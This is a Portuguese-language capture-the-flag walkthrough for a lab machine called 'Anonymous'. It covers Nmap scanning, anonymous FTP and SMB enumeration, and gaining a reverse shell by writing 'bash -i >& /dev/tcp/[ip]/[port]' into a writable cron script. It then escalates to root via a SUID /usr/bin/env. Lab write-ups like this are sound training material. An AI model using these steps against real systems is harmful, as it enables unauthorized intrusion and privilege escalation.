







# _**Anonymous CTF**_


## _**Walkthrough**_
Primeiro, vamos começar enumerando a rede do endereço IP alvo com <mark>Nmap</mark>
> ```bash
> nmap -p- -sS -T3 [ip_address]
> nmap -p [ports_discovered] -A -T3 [ip_address]
> ```


Vamos tentar realizar login anônimo via FTP  
Encontramos um diretório _scripts_ contendo alguns arquivos  
Transferimos eles para nossa máquina com ```mget```  
No arquivo _removed_files.log_, apenas nos diz que existe um script que está deletando algo, mas não havia nada para deletar  
E também temos o _script_ que está sendo executado  



Enumerando a porta do SMB, temos as seguintes _shares_  



Tentando acesso, conseguimos extrarir alguns arquivos de _pics_  



Dois arquivos de imagens  
Após extraí-los, procuramos por informações em seus metadados e informações escondidas, mas nada foi encontrado  
Voltando ao serviço FTP  
Como temos um _script .sh_ sendo executado na pasta **../scripts/**, podemos testar alterar este arquivo e realizar upload com _put_ no mesmo serviço  
Primeir, alteramos o arquivo que buscamos anteriormente, adicionando ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1``` em **clean.sh**
Fizemos _upload_ com _put_ no próprio FTP, aguardando, temos um _reverse shell_  



Transferimos LinPEAS.sh para a máquina-alvo e executamos  
Olhando os resultados, encontramos o seguinte  



Parece que podemos executar _/usr/bin/env_  
Pesquisando em GFTOBins, temos que, ao executar _/usr/bin/env /bin/bash -p_ para obtermos privilégios de _root_  
Agora, ir atrás das flags!
